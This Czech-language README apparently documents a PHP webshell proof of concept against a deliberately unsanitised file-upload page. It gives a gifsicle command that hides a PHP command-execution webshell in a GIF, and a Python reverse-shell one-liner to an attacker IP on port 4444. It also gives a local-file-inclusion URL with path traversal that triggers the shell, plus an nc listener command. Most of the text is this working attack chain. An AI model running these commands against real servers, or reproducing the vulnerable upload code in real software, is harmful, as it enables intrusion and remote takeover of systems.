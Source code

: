 # WebShell pro PHP

Níže existují dva soubory a to index.php a upload.php. Index.php je základní stránka obsahující zobrazovaný obsah a v souboru upload.php je zranitelná funkce, která neublashuje sanatizaci vstupů při nahrávání obsahu. Script vychází ze základní definice stanovené v w3school (https://www.w3schools.com/php/php_file_upload.asp).

Script je postaven dle https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2

Základní sada příkazů


Jedná se o webshell injectovaný do obrázku gif pomocí nástroje gifsicle a to pomocí příkazu `` gifsicle --comment "<?php system(\$_GET['cmd']); ?>" < upload_image.gif > upload_image.php.gif ``

Na webovém serveru musí byt pro toto PoC dostupný python a musí fungovat příkaz `` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ``

Pokud příkaz funguje, pak je mozne spustit reverse shell volanim `` http://<vulnerable-web-page>/index.php?file=../../../../../../../var/www/html/uploads/webshell.php.gif&cmd=python+-c+%27import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22<attacker-ip>%22,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 ``

Na serveru útočníka musí být spuštěn webový listener například pomocí `` nc -nvlp 4444 ``
